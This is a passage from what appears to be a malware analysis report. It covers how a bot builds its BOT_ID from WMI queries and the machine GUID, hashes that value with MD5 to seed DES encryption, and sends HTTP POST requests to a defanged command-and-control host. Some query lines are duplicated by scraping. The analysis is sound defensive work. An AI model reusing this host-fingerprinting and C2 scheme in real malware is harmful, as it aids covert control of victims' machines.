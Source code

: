 



select * from win32_computersystemproduct




1

select * from win32_computersystemproduct




The machine GUID obtained from the following registry key:





select * from win32_computersystemproduct




1

select * from win32_computersystemproduct




The list of attached drives, obtained from another WMI query, which in turn allows them to determine the ‘SerialNumber’ of ‘PHYSICALDRIVE0’:





select * from win32_diskdrive




1

select * from win32_diskdrive




The collected information is concatenated together in a byte array and then hashed with MD5, which is used as a seed for the creation of the BOT_ID. The algorithm used for the generation of the latter simply sums every two consecutive bytes from the resulting MD5 hash and places the resulting byte (modulus 256) as a single byte of the final BOT_ID. This logic is described in the code snippet below, taken from the malware.

Code snippet used to generate the BOT_ID
The resulting BOT_ID is used also to initialize the DES key and IV, which are then used to encrypt communication with the C2.
The malware communicates using HTTP POST requests where data arguments will be carried in encoded form as part of the request’s body. The overall request structure will then appear as follows:





POST /wp-includes/class-wp-network-statistics.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:68.0) Gecko/20100101
Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----2c0272b325864985abf2677460a9b07a
Accept-Language: en-GB,en;q=0.5
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Pragma: no-cache
Host: finasteridehair[.]com
Content-Length: 154
Expect: 100-continue
